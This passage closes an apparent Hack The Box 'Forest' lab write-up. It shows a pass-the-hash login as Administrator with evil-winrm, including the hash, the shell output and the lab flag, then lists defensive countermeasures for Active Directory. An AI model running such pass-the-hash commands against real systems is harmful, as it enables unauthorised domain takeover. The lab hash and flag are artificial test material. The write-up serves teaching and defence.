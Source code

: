 
After grabbing the Administrator's hash, I passed it to WinRM to login, fully compromising the host and grabbing the `root.txt` flag:

```none
kali@kali:~/htb/boxes/forest/loot$ ~/tools/evil-winrm/evil-winrm.rb -H '32693b11e6aa90eb43d32c72a07ceea6' -u Administrator -i 10.10.10.161

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/23/2019   2:15 PM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> gc root.txt
f048153f202bbb2f82622b04d79129cc
```

## Countermeasures

* Don't allow anonymous users to access LDAP on the domain controller.
* Don't allow anonymous users to access NetBIOS on the domain controller.
* Implement an Active Directory account lockout policy to prevent password spraying attacks.
* Prefer enabling kerberos preauthentication for the `svc-alfresco` user. If this is not possible, use a dedicated securely random password that is strong enough to not be brute forced offline.
* Use tools like bloodhound to check for dangerous ACLs that can lead to domain admin privilege escalation.
* Remove the `writeDACL` permission for the `Exchange Windows Permissions` group. The [following script](https://github.com/gdedrouas/Exchange-AD-Privesc) should help with this.
* For future security of the system, audit and monitor ACL changes in Active Directory. You can find more instructions for this at the bottom of [this article](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/).
